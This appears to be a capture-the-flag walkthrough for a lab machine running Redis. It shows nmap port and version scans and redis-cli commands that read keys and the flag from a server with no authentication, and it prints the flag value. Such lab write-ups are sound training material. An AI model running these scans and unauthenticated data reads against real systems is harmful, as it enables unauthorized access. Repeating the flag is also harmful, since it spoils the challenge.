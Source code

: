 This box is about "redis".

**[Redis](https://redis.io/docs/getting-started/)** is an open source, in-memory data structure store, used as a database, cache, and message broker.

In-memory databases are the ones that rely essentially on the primary memory for data storage (meaning that the database is managed in the RAM of the system); in contrast to databases that store data on the disk or SSDs.

Because it's very fast, In-memory databases are typically used to cache data that is frequently requested for quick retrieval. 
For example, if there is a website that returns some prices on the front page of the site. The
website may be written to first check if the needed prices are in Redis, and if not, then check the traditional
database (like MySQL or MongoDB).

### Scan
No result for ```nmap -sC -sV <ip>```, so scan all ports.

```shell
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ nmap -p1-65535 10.129.206.216
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 11:00 EDT
Nmap scan report for 10.129.206.216
Host is up (0.015s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6379/tcp open  redis
```

```shell
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ nmap -sC -sV -p 6379 10.129.206.216
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 11:01 EDT
Nmap scan report for 10.129.206.216
Host is up (0.016s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

### Interact with redis

Get more info about the redis server.
```shell
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ sudo apt install redis-tools
...
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ redis-cli -h 10.129.206.216
10.129.206.216:6379> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

Obtain all the keys in the database.
```shell
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ redis-cli -h 10.129.206.216 select 0 keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
┌──(kali㉿kali)-[~/htb/redeemer]
└─$ redis-cli -h 10.129.206.216 get "flag" 
"03e1d2b376c37ab3f5319922053953eb"
```